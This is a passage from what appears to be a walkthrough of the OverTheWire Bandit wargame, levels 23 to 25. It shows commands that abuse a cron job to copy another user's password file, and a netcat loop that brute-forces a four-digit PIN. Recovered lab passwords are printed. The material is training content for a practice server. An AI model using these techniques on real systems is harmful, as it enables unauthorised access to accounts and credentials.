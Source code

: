 ```
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/
bandit23@bandit:/var/spool/bandit24$ echo '/bin/cat /etc/bandit_pass/bandit24 > /tmp/b24' > b24pass
bandit23@bandit:/var/spool/bandit24$ chmod +x b24pass
bandit23@bandit:/var/spool/bandit24$ ls -l b24pass
-rwxrwxr-x 1 bandit23 bandit23 46 Apr 16 10:57 b24pass
bandit23@bandit:/var/spool/bandit24$ cat b24pass
/bin/cat /etc/bandit_pass/bandit24 > /tmp/b24
```
Wait for few seconds.
```
bandit23@bandit:/var/spool/bandit24$ cat /tmp/b24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
## Level 24 - Level 25
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
^C
```
```
for pin in {0..9}{0..9}{0..9}{0..9};do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin | nc localhost 30002;done
```
The above method will definetely find the correct pin eventually, but it takes a lot of time.

```
bandit24@bandit:~$ for pin in {0..9}{0..9}{0..9}{0..9};do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin;done > /tmp/blah
bandit24@bandit:~$
bandit24@bandit:~$ cat /tmp/blah | nc localhost 30002 > /tmp/result
bandit24@bandit:~$ grep -v Wrong /tmp/result
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
bandit24@bandit:~$
```
## Level 25 - Level 26
Logging in to bandit26 from bandit25 should be fairly easy. The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls -l               
total 4
```